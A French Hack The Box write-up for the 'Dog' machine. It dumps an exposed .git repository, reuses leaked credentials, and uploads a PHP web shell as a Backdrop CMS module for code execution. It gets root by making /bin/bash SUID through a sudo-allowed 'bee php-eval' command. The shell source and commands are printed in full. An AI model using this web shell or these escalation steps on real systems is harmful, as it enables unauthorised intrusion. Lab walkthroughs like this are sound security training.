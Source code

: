 ```yaml
---
title: Dog - Linux Easy - HTB Writeup 
description:
slug: Dog-htb-writeup-linux-easy
date: 2025-07-12 00:00:00+0000
image: Dog.png
categories:
    - Hack
    - Linux
    - Easy
tags:
    - GitHack
    - RCE
    - Sudo misconfiguration
# weight: 1       # You can add weight to some posts to override the default sorting (date descending)
---
```

## Résumé
User: Identifiants de l'app web dans le code source extrait via GitHack + RCE via l'upload d'une archive.\
Root: Misconfiguration sudo du CLI bee.

## Enumeration
A l'aide d'un scan nmap, nous pouvons identifier un service web sur le port 80 et SSH sur le port 22.

{{< highlight go "hl_lines=1 3 8 21" >}}
$ nmap -Pn -p- 10.129.208.97 -v -A
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
|_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Home | Dog
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 3836E83A3E835A26D789DDA9E78C5510
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-git: 
|   10.129.208.97:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
{{< /highlight >}}

## Utilisateur
### Dump git + RCE via shell.tar

Le scan nmap a souligné que le dossier `.git` de l'application web est exposé.\
Nous utilisons [GitHack](https://github.com/lijiejie/GitHack) afin d'obtenir une partie du code source.

{{< highlight go "hl_lines=1 4" >}}
$ ls
GitHack.py  index  lib  README.md
              
$ python GitHack.py http://dog.htb/.git
[+] Download and parse index file ...
[+] LICENSE.txt
[+] README.md
[+] core/.jshintignore
...

{{< /highlight >}}
Dans ces fichiers, nous pouvons trouver un username `tiffany` et un mot de passe `BackDropJ2024DS2024`
{{< highlight go "hl_lines=1 4" >}}
$ grep -ir dog.htb .
./dog.htb/files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json:        "tiffany@dog.htb"

$ cat -n settings.php
...
    15  $database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
...
{{< /highlight >}}

Ces identifiants nous permettent de nous connecter à l'application web `http://dog.htb` en tant que `tiffany`.\
Nous pouvons trouver la version de `Backdrop` utilisée via l'onglet `Reports` puis `Status report`.\
Cette version `1.27.1` est vulnérable à une RCE.
![](Backdrop_version.png)

Cet [exploit](https://www.exploit-db.com/exploits/52021) pourrait fonctionner mais, notre instance de backdrop n'autorise pas l'installation de modules en utilisant des archives `.zip`.\
Nous pouvons trouver cette information via l'onget `Functionality` puis `Install new modules`.
![](Backdrop_zip.png)

Nous allons créer notre propre archive `.tar` en utilisant le code HTML/PHP et contenu de `shell.info` fournis dans l'exploit.\
Ensuite, sur la page d'installation des modules, nous uploadons notre archive.
{{< highlight go "hl_lines=1 19 36" >}}
$ cat shell.php   
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
if(isset($_GET['cmd']))
{
system($_GET['cmd']);
}
?>
</pre>
</body>
</html>

$ cat shell.info
type = module
name = Block
description = Controls the visual building blocks a page is constructed with. Blocks are boxes of content rendered into an area, or region, of a web page.
package = Layouts
tags[] = Blocks
tags[] = Site Architecture
version = BACKDROP_VERSION
backdrop = 1.x

configure = admin/structure/block

; Added by Backdrop CMS packaging script on 2024-03-07
project = backdrop
version = 1.27.1
timestamp = 1709862662

$ tar cvf shell.tar shell.php shell.info
shell.php
shell.info
{{< /highlight >}}
![](Backdrop_shell_tar.png)
![](Backdrop_module_installed.png)

Même si notre nouveau module n'est pas listé dans la liste des modules de l'application web, nous pouvons y accéder via `/modules/shell/shell.php` comme spécifié dans l'[exploit](https://www.exploit-db.com/exploits/52021).
![](Backdrop_RCE.png)

Dans le dossier `/home`, on remarque deux utilisateurs `jobert` et `johncusack`.
![](Backdrop_users.png)\
En réutilisant le mot de passe `BackDropJ2024DS2024` précédemment trouvé, nous pouvons nous connecter à la machine via SSH en tant que `johncusack` et récupérer le flag `user.txt`.
{{< highlight go "hl_lines=1 2" >}}
$ ssh johncusack@dog.htb
johncusack@dog:~$ ls
user.txt
{{< /highlight >}}

## Root
### Misconfiguration sudo
On remarque que `johncusack` peut utiliser la CLI `bee` en tant que `root` grace à sudo.
{{< highlight go "hl_lines=1 7" >}}
johncusack@dog:~$ sudo -l
[sudo] password for johncusack: 
Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
{{< /highlight >}}
Cette CLI "permet aux developpeurs d'intérargir avec des sites Backdrop" comme spécifié sur leur [GitHub](https://github.com/backdrop-contrib/bee). Comme indiqué dans la documentation, nous pouvons éxécuter du code PHP.

{{< highlight go "hl_lines=1" >}}
johncusack@dog:~$ sudo bee
...
  eval
   ev, php-eval
        Evaluate (run/execute) arbitrary PHP code after bootstrapping Backdrop.
...
{{< /highlight >}}

Premièrement, nous allons nous déplacer dans `/var/www/html` pour que `bee` puisse intérargir avec notre application backdrop.\
Ensuite, nous allons ajouter le flag SUID à `/bin/bash` afin d'obtenir un shell root et récupérer le flag `root.txt`.
{{< highlight go "hl_lines=2 5 6 8" >}}
johncusack@dog:~$ cd /var/www/html
johncusack@dog:/var/www/html$ sudo /usr/local/bin/bee php-eval 'exec("chmod u+s /bin/bash")'
johncusack@dog:/var/www/html$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
johncusack@dog:/var/www/html$ /bin/bash -p
bash-5.0# id
uid=1001(johncusack) gid=1001(johncusack) euid=0(root) groups=1001(johncusack)
bash-5.0# ls /root
root.txt
{{< /highlight >}}


## Ressources
> [GitHack](https://github.com/lijiejie/GitHack)\
> [Backdrop v1.27.1](https://www.exploit-db.com/exploits/52021)